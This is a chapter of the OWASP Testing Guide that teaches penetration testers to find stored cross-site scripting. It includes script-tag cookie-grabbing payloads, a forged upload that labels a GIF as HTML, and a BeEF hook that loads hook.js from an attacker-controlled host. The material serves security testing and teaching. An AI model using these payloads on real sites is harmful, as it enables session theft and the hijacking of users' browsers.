



4.8.2 Testing for Stored Cross Site Scripting (OTG-INPVAL-002)
Summary
Stored
Cross-site Scripting (XSS) is the most dangerous type of Cross Site Scripting. Web applications that allow users to store data are potentially exposed to this type of attack. This chapter illustrates examples of stored cross site scripting injection and related exploitation scenarios.
Stored XSS occurs when a web application gathers input from a user which might be malicious, and then stores that input in a data store for later use. The input that is stored is not correctly filtered. As a consequence, the malicious data will appear to be part of the web site and run within the user’s browser under the privileges of the web application. Since this vulnerability typically involves at least two requests to the application, this may also called second-order XSS.
This vulnerability can be used to conduct a number of browser-based attacks including:
• Hijacking another user's browser
• Capturing sensitive information viewed by application users
• Pseudo defacement of the application
• Port scanning of internal hosts ("internal" in relation to the users of the web application)
• Directed delivery of browser-based exploits
• Other malicious activities
Stored XSS does not need a malicious link to be exploited. A successful exploitation occurs when a user visits a page with a stored XSS. The following phases relate to a typical stored XSS attack scenario:
• Attacker stores malicious code into the vulnerable page
• User authenticates in the application
• User visits vulnerable page
• Malicious code is executed by the user's browser
This type of attack can also be exploited with browser exploitation frameworks such as
BeEF,
XSS Proxy and
Backframe. These frameworks allow for complex JavaScript exploit development.
Stored XSS is particularly dangerous in application areas where users with high privileges have access. When the administrator visits the vulnerable page, the attack is automatically executed by their browser. This might expose sensitive information such as session authorization tokens.
How to Test
Black Box testing
The process for identifying stored XSS vulnerabilities is similar to the process described during the
testing for reflected XSS.
Input Forms The first step is to identify all points where user input is stored into the back-end and then displayed by the application. Typical examples of stored user input can be found in:
• User/Profiles page: the application allows the user to edit/change profile details such as first name, last name, nickname, avatar, picture, address, etc.
• Shopping cart: the application allows the user to store items into the shopping cart which can then be reviewed later
• File Manager: application that allows upload of files
• Application settings/preferences: application that allows the user to set preferences
• Forum/Message board: application that permits exchange of posts among users
• Blog: if the blog application permits to users submitting comments
• Log: if the application stores some users input into logs.
Analyze HTML code Input stored by the application is normally used in HTML tags, but it can also be found as part of JavaScript content. At this stage, it is fundamental to understand if input is stored and how it is positioned in the context of the page. Differently from reflected XSS, the pen-tester should also investigate any out-of-band channels through which the application receives and stores users input.
Note: All areas of the application accessible by administrators should be tested to identify the presence of any data submitted by users.
Example: Email stored data in index2.php

The HTML code of index2.php where the email value is located:
<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com" />
In this case, the tester needs to find a way to inject code outside the <input> tag as below:
<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"> MALICIOUS CODE <!-- />
Testing for Stored XSS This involves testing the input validation and filtering controls of the application. Basic injection examples in this case:
aaa@aa.com"><script>alert(document.cookie)</script>aaa@aa.com%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E
Ensure the input is submitted through the application. This normally involves disabling JavaScript if client-side security controls are implemented or modifying the HTTP request with a web proxy such as
WebScarab. It is also important to test the same injection with both HTTP GET and POST requests. The above injection results in a popup window containing the cookie values.
Result Expected:

The HTML code following the injection:
<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"><script>alert(document.cookie)</script>
The input is stored and the XSS payload is executed by the browser when reloading the page. If the input is escaped by the application, testers should test the application for XSS filters. For instance, if the string "SCRIPT" is replaced by a space or by a NULL character then this could be a potential sign of XSS filtering in action. Many techniques exist in order to evade input filters (see
testing for reflected XSS chapter). It is strongly recommended that testers refer to
XSS Filter Evasion ,
RSnake and
Mario XSS Cheat pages, which provide an extensive list of XSS attacks and filtering bypasses. Refer to the whitepapers and tools section for more detailed information.
Leverage Stored XSS with BeEF Stored XSS can be exploited by advanced JavaScript exploitation frameworks such as
BeEF,
XSS Proxy and
Backframe.
A typical BeEF exploitation scenario involves:
• Injecting a JavaScript hook which communicates to the attacker's browser exploitation framework (BeEF)
• Waiting for the application user to view the vulnerable page where the stored input is displayed
• Control the application user’s browser via the BeEF console
The JavaScript hook can be injected by exploiting the XSS vulnerability in the web application.
Example: BeEF Injection in index2.php:
aaa@aa.com”><script src=http://attackersite/hook.js></script>
When the user loads the page index2.php, the script hook.js is executed by the browser. It is then possible to access cookies, user screenshot, user clipboard, and launch complex XSS attacks.
Result Expected 
This attack is particularly effective in vulnerable pages that are viewed by many users with different privileges.
File Upload If the web application allows file upload, it is important to check if it is possible to upload HTML content. For instance, if HTML or TXT files are allowed, XSS payload can be injected in the file uploaded. The pen-tester should also verify if the file upload allows setting arbitrary MIME types.
Consider the following HTTP POST request for file upload:
POST /fileupload.aspx HTTP/1.1
[…]
Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.txt"
Content-Type: text/plain
test
This design flaw can be exploited in browser MIME mishandling attacks. For instance, innocuous-looking files like JPG and GIF can contain an XSS payload that is executed when they are loaded by the browser. This is possible when the MIME type for an image such as image/gif can instead be set to text/html. In this case the file will be treated by the client browser as HTML.
HTTP POST Request forged:
Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.gif"
Content-Type: text/html
<script>alert(document.cookie)</script>
Also consider that Internet Explorer does not handle MIME types in the same way as Mozilla Firefox or other browsers do. For instance, Internet Explorer handles TXT files with HTML content as HTML content. For further information about MIME handling, refer to the whitepapers section at the bottom of this chapter.
Gray Box testing
Gray Box testing is similar to Black box testing. In gray box testing, the pen-tester has partial knowledge of the application. In this case, information regarding user input, input validation controls, and data storage might be known by the pen-tester.
Depending on the information available, it is normally recommended that testers check how user input is processed by the application and then stored into the back-end system. The following steps are recommended:
• Use front-end application and enter input with special/invalid characters
• Analyze application response(s)
• Identify presence of input validation controls
• Access back-end system and check if input is stored and how it is stored
• Analyze source code and understand how stored input is rendered by the application
If source code is available (White Box), all variables used in input forms should be analyzed. In particular, programming languages such as PHP, ASP, and JSP make use of predefined variables/functions to store input from HTTP GET and POST requests.
The following table summarizes some special variables and functions to look at when analyzing source code:
| click me | click me | click me |
|---|
| PHP | ASP | JSP |
| • $_GET - HTTP GET variables
• $_POST - HTTP POST variables
• $_REQUEST – http POST, GET and COOKIE variables
• $_FILES - HTTP File Upload variables
| • Request.QueryString - HTTP GET
• Request.Form - HTTP POST
• Server.CreateObject - used to upload files
| • doGet, doPost servlets - HTTP GET and POST
• request.getParameter - HTTP GET/POST variables
|
Note: The table above is only a summary of the most important parameters but, all user input parameters should be investigated.
Tools
•
OWASP CAL9000 CAL9000 includes a sortable implementation of RSnake's XSS Attacks, Character Encoder/Decoder, HTTP Request Generator and Response Evaluator, Testing Checklist, Automated Attack Editor and much more.
•
PHP Charset Encoder(PCE) -
http://h4k.in/encodingPCE helps you encode arbitrary texts to and from 65 kinds of character sets that you can use in your customized payloads.
•
Hackvertor -
http://www.businessinfo.co.uk/labs/hackvertor/hackvertor.phpHackvertor is an online tool which allows many types of encoding and obfuscation of JavaScript (or any string input).
•
BeEF -
http://www.beefproject.comBeEF is the browser exploitation framework. A professional tool to demonstrate the real-time impact of browser vulnerabilities.
•
XSS-Proxy -
http://xss-proxy.sourceforge.net/XSS-Proxy is an advanced Cross-Site-Scripting (XSS) attack tool.
•
Backframe -
http://www.gnucitizen.org/projects/backframe/Backframe is a full-featured attack console for exploiting WEB browsers, WEB users, and WEB applications.
•
WebScarabWebScarab is a framework for analyzing applications that communicate using the HTTP and HTTPS protocols.
•
Burp -
http://portswigger.net/burp/Burp Proxy is an interactive HTTP/S proxy server for attacking and testing web applications.
•
XSS Assistant -
http://www.greasespot.net/Greasemonkey script that allow users to easily test any web application for cross-site-scripting flaws.
•
OWASP Zed Attack Proxy (ZAP) -
OWASP_Zed_Attack_Proxy_ProjectZAP is an easy to use integrated penetration testing tool for finding vulnerabilities in web applications. It is designed to be used by people with a wide range of security experience and as such is ideal for developers and functional testers who are new to penetration testing. ZAP provides automated scanners as well as a set of tools that allow you to find security vulnerabilities manually.
References
OWASP Resources •
XSS Filter Evasion Cheat Sheet Books • Joel Scambray, Mike Shema, Caleb Sima - "Hacking Exposed Web Applications", Second Edition, McGraw-Hill, 2006 -
ISBN 0-07-226229-0• Dafydd Stuttard, Marcus Pinto - "The Web Application's Handbook - Discovering and Exploiting Security Flaws", 2008, Wiley,
ISBN 978-0-470-17077-9• Jeremiah Grossman, Robert "RSnake" Hansen, Petko "pdp" D. Petkov, Anton Rager, Seth Fogie - "Cross Site Scripting Attacks: XSS Exploits and Defense", 2007, Syngress, ISBN-10: 1-59749-154-3
Whitepapers • RSnake: "XSS (Cross Site Scripting) Cheat Sheet" -
http://ha.ckers.org/xss.html• CERT: "CERT Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests" -
http://www.cert.org/advisories/CA-2000-02.html• Amit Klein: "Cross-site Scripting Explained" -
http://courses.csail.mit.edu/6.857/2009/handouts/css-explained.pdf• Gunter Ollmann: "HTML Code Injection and Cross-site Scripting" -
http://www.technicalinfo.net/papers/CSS.html• CGISecurity.com: "The Cross Site Scripting FAQ" -
http://www.cgisecurity.com/xss-faq.html• Blake Frantz: "Flirting with MIME Types: A Browser's Perspective" -
http://www.leviathansecurity.com/pdf/Flirting%20with%20MIME%20Types.pdf